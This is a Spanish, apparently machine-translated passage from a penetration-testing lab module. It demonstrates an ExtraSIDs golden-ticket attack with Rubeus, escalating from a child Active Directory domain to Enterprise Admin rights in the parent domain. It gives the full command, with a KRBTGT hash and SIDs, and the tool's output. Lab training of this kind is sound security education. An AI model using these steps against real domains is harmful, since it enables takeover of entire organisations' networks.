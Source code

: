 
## Ataque de extrasidos - Rubeo

También podemos realizar este ataque usando Rubeo. Primero, nuevamente, confirmaremos que no podemos acceder al sistema de archivos del controlador de dominio del dominio principal.

#### Uso de LS para confirmar no tener acceso antes de ejecutar Rubeus

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - Desde Windows

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
At line:1 char:1
+ ls \\academy-ea-dc01.inlanefreight.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAcces 
   sException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
	
<SNIP> 
```

A continuación, formularemos nuestro comando Rubeus utilizando los datos que recuperamos anteriormente. El`/rc4`Flag es el hash NT para la cuenta KRBTGT. El`/sids`Flag le dirá a Rubeo que cree nuestro boleto dorado que nos da los mismos derechos que los miembros del grupo de administradores empresariales en el dominio de los padres.

#### Creando un boleto dorado usando Rubeus

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - Desde Windows

```powershell-session
PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
[*] SID            : S-1-5-21-2806153819-209893948-922872689
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-3842939050-3880317879-2865463114-519
[*] ServiceKey     : 9D765B482771505CBE97411065964D5F
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 9D765B482771505CBE97411065964D5F
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : LOGISTICS.INLANEFREIGHT.LOCAL

```
